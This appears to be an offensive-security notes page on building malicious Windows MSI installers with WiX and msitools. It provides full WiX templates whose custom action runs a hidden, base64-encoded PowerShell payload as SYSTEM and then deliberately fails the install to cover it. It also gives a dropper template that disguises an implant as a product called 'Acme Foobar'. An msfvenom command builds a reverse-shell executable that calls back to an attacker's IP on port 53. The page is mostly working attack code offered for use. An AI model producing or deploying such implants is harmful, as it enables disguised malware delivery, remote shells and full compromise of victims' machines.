 # MSI

## 01 - Setup

### 1.1 - `msitools`

Install the packages.

```
$ sudo apt install -y msitools wixl
```

### 1.2 - DotNET

```
$ dotnet tool install --global wix
```

## 02 - Compile Implant

### 2.1 - Fileless implant

TODO: Figure out how to compile it in `dotnet` to resolve the issue.

At minimum, the `Property` line needs to be changed to the command you want to execute. Also needs to be changed in order to build the MSI installer.

```xml
<File Id="ApplicationFile1" Source="Updater.exe"/>
```

The important parts to note of the `CustomAction` tag.

```xml
<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload></Property>
<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
</CustomAction>
```

Finally, we have our `InstallExecuteSequence` tag, which is responsible for executing our custom actions in order. So, when executed our first custom action will be launched, forcing our payload to run as the SYSTEM account. Our second custom action will be launched, causing some invalid VBScript to be executed and stop the install process with an error.

```xml
<InstallExecuteSequence>
 <Custom Action="SystemShell" After="InstallInitialize"></Custom>
 <Custom Action="FailInstall" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
```

Name this file `msigen.wix`.

```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
 <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

  <Directory Id="TARGETDIR" Name="SourceDir">
   <Directory Id="ProgramFilesFolder">
    <Directory Id="INSTALLLOCATION" Name="Example">
     <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
      <File Id="ApplicationFile1" Source="Updater.exe"/>
     </Component>
    </Directory>
   </Directory>
  </Directory>

  <Feature Id="DefaultFeature" Level="1">
   <ComponentRef Id="ApplicationFiles"/>
  </Feature>

  <Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
  </Property>

  <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
  </CustomAction>

  <InstallExecuteSequence>
   <Custom Action="SystemShell" After="InstallInitialize"></Custom>
  </InstallExecuteSequence>

 </Product>
</Wix>
```

We have received an error.

```
$ touch Updater.exe

$ wixl -v msigen.wix -o implant.msi
```

Let's convert it and build an MSI installer.

```
$ wix convert msigen.wix

$ wix build msigen.wix -o implant.msi
```

### 2.1 - Dropper implant

```xml
<?xml version='1.0' encoding='windows-1252'?>
<Wix xmlns='http://wixtoolset.org/schemas/v4/wxs'>
  <Product Name='Foobar 1.0' Id='ABCDDCBA-86C7-4D14-AEC0-86416A69ABDE' UpgradeCode='ABCDDCBA-7349-453F-94F6-BCB5110BA4FD'
    Language='1033' Codepage='1252' Version='1.0.0' Manufacturer='Acme Ltd.'>

    <Package Id='*' Keywords='Installer' Description="Acme's Foobar 1.0 Installer"
      Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.'
      InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' />

    <Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' DiskPrompt="CD-ROM #1" />
    <Property Id='DiskPrompt' Value="Acme's Foobar 1.0 Installation [1]" />

    <Directory Id='TARGETDIR' Name='SourceDir'>
      <Directory Id='ProgramFilesFolder' Name='PFiles'>
        <Directory Id='Acme' Name='Acme'>
          <Directory Id='INSTALLDIR' Name='Foobar 1.0'>

            <Component Id='MainExecutable' Guid='ABCDDCBA-83F1-4F22-985B-FDB3C8ABD471'>
              <File Id='FoobarEXE' Name='FoobarAppl10.exe' DiskId='1' Source='Updater.exe' KeyPath='yes'/>
            </Component>

          </Directory>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id='Complete' Level='1'>
      <ComponentRef Id='MainExecutable' />
    </Feature>

  </Product>
</Wix>
```

For fileless malware just make an empty file `touch Updater.exe` unless if it's a dropper then generate with `msfvenom` implant. Then build a MSI installer.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=53 -f exe -o Updater.exe

$ wixl -v msigen.wix -o implant.msi
Loading msigen.wix...
Building implant.msi...
Writing implant.msi...
```

---
## Draft


```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
 <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

  <Directory Id="TARGETDIR" Name="SourceDir">
   <Directory Id="ProgramFilesFolder">
    <Directory Id="INSTALLLOCATION" Name="Example">
     <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
      <File Id="ApplicationFile1" Source="Updater.exe"/>
     </Component>
    </Directory>
   </Directory>
  </Directory>

  <Feature Id="DefaultFeature" Level="1">
   <ComponentRef Id="ApplicationFiles"/>
  </Feature>

  <Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
  </Property>

  <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
  <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
   invalid vbs to fail install
  </CustomAction>

  <InstallExecuteSequence>
   <Custom Action="SystemShell" After="InstallInitialize"></Custom>
   <Custom Action="FailInstall" Before="InstallFiles"></Custom>
  </InstallExecuteSequence>

 </Product>
</Wix>
```